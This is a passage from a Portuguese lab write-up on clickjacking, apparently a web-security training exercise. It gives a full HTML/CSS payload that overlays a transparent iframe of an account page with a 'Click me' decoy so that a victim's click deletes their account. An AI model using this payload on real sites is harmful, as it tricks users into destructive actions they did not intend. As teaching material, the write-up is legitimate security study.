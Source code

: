 Nessa tela, temos um botão `"Delete account"` que, não pede nenhum tipo de confirmação, e é através dele que iremos explorar a vulnerabilidade de `Clickjacking`.

O laboratório disponibiliza um `exploit server` onde é possível fazer o ataque:

![server](basic_server.png)

No campo `Body` do `exploit server`, iremos colocar o seguinte código:

```html

    <style>
        iframe {
            position: relative;
            width: 500px;
            height: 700px;
            opacity: 0.3;
            z-index: 2;
        }
        
        div {
            position: absolute;
            top: 580px;
            left: 60px;
            z-index: 1;
        }
    </style>
    <div>Click me</div>
    <iframe src="https://0a9000e8049d6309c015137f00c40080.web-security-academy.net/my-account"></iframe>

```

O objetivo aqui é fazer com que a `div` fique sobre o botão `"Delete account"`, e assim, quando o usuário clicar na div, o evento de clique será enviado para o botão `"Delete account"`, induzindo o usuário a deletar sua conta.

Utilizando o:

```css

    opacity: 0.3;

```
